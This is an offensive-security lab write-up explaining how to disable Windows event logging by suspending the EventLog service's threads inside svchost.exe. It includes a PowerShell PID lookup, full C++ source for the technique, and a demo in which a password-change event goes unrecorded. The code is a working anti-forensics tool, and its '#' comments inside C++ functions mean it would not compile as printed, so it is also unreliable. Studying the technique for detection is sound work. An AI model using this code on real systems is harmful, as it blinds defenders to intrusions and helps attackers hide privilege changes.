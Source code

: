 # Disabling Windows Event Logs by Suspending EventLog Service Threads

This lab was inspired by an old post [Phant0m: Killing Windows Event Log](https://artofpwn.com/phant0m-killing-windows-event-log.html) by [@hlldz](https://twitter.com/hlldz) where he introduced a powershell tool [Invoke-Phant0m](https://github.com/hlldz/Invoke-Phant0m), which disables Windows EventLog service by killing its threads hosted by the svchost.exe.

The purpose of this quick lab is to understand some of the inner workings of Invoke-Phant0m. In particular, I wanted to play around with Windows APIs related to retrieving a process ID that hosts a given service, thread enumeration, mapping threads to a particular service \(Windows Eventlog in this case\) hosted in the svchost.exe and so on. This would give me a better understanding of how I can target specific threads when I need to, I thought.

{% hint style="info" %}
Although this lab was inspired by @hlldz' post, you will notice that we implemented the same technique in a slightly different way by levarging different Windows APIs.
{% endhint %}

## Overview

Windows event logs are handled by `EventLog` service that is hosted by svchost.exe.

If we list svchost processes, we see a number of those:

![](../../.gitbook/assets/image%20%28634%29.png)

From the above screenshot, it's not clear which process actually hosts the `EventLog` service, but if we keep inspecting `svchost.exe` processes one by one in Process Hacker, we will eventually find the process hosting the `EventLog` service, which in my case it is `svchost.exe` with pid 2196:

![](../../.gitbook/assets/image%20%28626%29.png)

Note that we can find out the PID of the process that is hosting `EventLog`:

```csharp
Get-WmiObject -Class win32_service -Filter "name = 'eventlog'" | select -exp ProcessId
```

![](../../.gitbook/assets/image%20%28668%29.png)

If we look into svchost.exe threads for `EventLog`, we see there are a couple of threads of interest as highlighted in blue:

![](../../.gitbook/assets/image%20%28708%29.png)

Below shows that indeed, suspending the threas is enough to disable the EventLog service from registering any new events:

![](../../.gitbook/assets/suspended-threads-no-events%20%281%29.gif)

Based on the above, the main goal of this lab is to hack some code to find these threads and simply suspend them and disable windows event logging this way.

{% hint style="warning" %}
Resuming threads will write out the events to the events log as if the threads had not been suspended in the first place.
{% endhint %}

## Code

Below is the code for the technique that at a high level works like this:

1. Open a handle to Service Control Manager with `OpenSCManagerA`
2. Open a handle to EventLog service with `OpenServiceA`
3. Retrieve svchost.exe \(hosting EventLog\) process ID with `QueryServiceStatusEx`
4. Open a handle to the svchost.exe process \(from step 3\)
5. Get a list of loaded modules loaded by svchost.exe `EnumProcessModules`
6. Loop through the list of `svchost` loaded modules, retrieved in step 5, find their names with `GetModuleBaseName` and find the base address of the module `wevtsvc.dll` - this is the module containing `EventLog` service inner-workings
7. Get `wevtsvc.dll` module info with `GetModuleInformation`. It will return a structure with module's start address and its image size - we will need these details later, when determiing if `EventLog` service thread's fall into wevtsvc.dll module's memory space
8. Enumerate all the threads inside svchost.exe with `Thread32First` and `Thread32Next`
9. For each thread from step 8, retrieve the thread's start address with `NtQueryInformationThread`
10. For each thread from step 8, check if the thread's start address belongs to the `wevtsvc.dll` memory space inside svchost.exe
11. If thread's start address is inside the `wevtsvc.dll` memory space, this is our victim thread and we suspend it with `SuspendThread`
12. `EventLog` service is now disabled

```cpp
#include <iostream>
#include <Windows.h>
#include <Psapi.h>
#include <TlHelp32.h>
#include <dbghelp.h>
#include <winternl.h>

#pragma comment(lib, "DbgHelp")

using myNtQueryInformationThread = NTSTATUS(NTAPI*)(
	IN HANDLE          ThreadHandle,
	IN THREADINFOCLASS ThreadInformationClass,
	OUT PVOID          ThreadInformation,
	IN ULONG           ThreadInformationLength,
	OUT PULONG         ReturnLength
	);

int main()
{
	HANDLE serviceProcessHandle;
	HANDLE snapshotHandle;
	HANDLE threadHandle;

	HMODULE modules[256] = {};
	SIZE_T modulesSize = sizeof(modules);
	DWORD modulesSizeNeeded = 0;
	DWORD moduleNameSize = 0;
	SIZE_T modulesCount = 0;
	WCHAR remoteModuleName[128] = {};
	HMODULE serviceModule = NULL;
	MODULEINFO serviceModuleInfo = {};
	DWORD_PTR threadStartAddress = 0;
	DWORD bytesNeeded = 0;

	myNtQueryInformationThread NtQueryInformationThread = (myNtQueryInformationThread)(GetProcAddress(GetModuleHandleA("ntdll"), "NtQueryInformationThread"));

	THREADENTRY32 threadEntry;
	threadEntry.dwSize = sizeof(THREADENTRY32);

	SC_HANDLE sc = OpenSCManagerA(".", NULL, MAXIMUM_ALLOWED);
	SC_HANDLE service = OpenServiceA(sc, "EventLog", MAXIMUM_ALLOWED);

	SERVICE_STATUS_PROCESS serviceStatusProcess = {};

	# Get PID of svchost.exe that hosts EventLog service
	QueryServiceStatusEx(service, SC_STATUS_PROCESS_INFO, (LPBYTE)&serviceStatusProcess, sizeof(serviceStatusProcess), &bytesNeeded);
	DWORD servicePID = serviceStatusProcess.dwProcessId;

	# Open handle to the svchost.exe
	serviceProcessHandle = OpenProcess(MAXIMUM_ALLOWED, FALSE, servicePID);
	snapshotHandle = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);

	# Get a list of modules loaded by svchost.exe
	EnumProcessModules(serviceProcessHandle, modules, modulesSize, &modulesSizeNeeded);
	modulesCount = modulesSizeNeeded / sizeof(HMODULE);
	for (size_t i = 0; i < modulesCount; i++)
	{
		serviceModule = modules[i];

		# Get loaded module's name
		GetModuleBaseName(serviceProcessHandle, serviceModule, remoteModuleName, sizeof(remoteModuleName));

		if (wcscmp(remoteModuleName, L"wevtsvc.dll") == 0)
		{
			printf("Windows EventLog module %S at %p\n\n", remoteModuleName, serviceModule);
			GetModuleInformation(serviceProcessHandle, serviceModule, &serviceModuleInfo, sizeof(MODULEINFO));
		}
	}

	# Enumerate threads
	Thread32First(snapshotHandle, &threadEntry);
	while (Thread32Next(snapshotHandle, &threadEntry))
	{
		if (threadEntry.th32OwnerProcessID == servicePID)
		{
			threadHandle = OpenThread(MAXIMUM_ALLOWED, FALSE, threadEntry.th32ThreadID);
			NtQueryInformationThread(threadHandle, (THREADINFOCLASS)0x9, &threadStartAddress, sizeof(DWORD_PTR), NULL);
			
			# Check if thread's start address is inside wevtsvc.dll memory range
			if (threadStartAddress >= (DWORD_PTR)serviceModuleInfo.lpBaseOfDll && threadStartAddress <= (DWORD_PTR)serviceModuleInfo.lpBaseOfDll + serviceModuleInfo.SizeOfImage)
			{
				printf("Suspending EventLog thread %d with start address %p\n", threadEntry.th32ThreadID, threadStartAddress);

				# Suspend EventLog service thread
				SuspendThread(threadHandle);
				Sleep(2000);
			}
		}
	}

	return 0;
}
```

## Demo

Below GIF illustrates:

* `net user ola ola` is executed and user's ola password is changed and an event `4724` logged at 6:55:30 PM
* 4 EventLog threads are suspended in svchost.exe \(PID 2196\)
* `net user ola ola` is executed again at 6:55:38 PM, but no new event `4724` is captured

![](../../.gitbook/assets/demo-suspending-eventlog-threads%20%281%29.gif)

## References

{% embed url="https://artofpwn.com/phant0m-killing-windows-event-log.html" %}

